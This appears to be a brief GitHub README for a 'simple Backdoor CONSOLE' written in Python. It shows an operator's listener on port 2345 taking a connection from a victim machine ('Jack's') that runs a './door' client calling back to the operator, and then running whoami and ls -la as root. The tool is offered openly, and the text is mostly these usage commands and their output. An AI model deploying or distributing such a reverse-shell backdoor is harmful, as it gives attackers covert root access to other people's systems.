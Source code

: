 > A simple Backdoor CONSOLE, Support both Python 2 & 3.

### Your side
```
root@server 07:47 /home # ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

### Jack's
```
root@boy 07:47 /home # ./door *.*.*.*:2345
```
End.
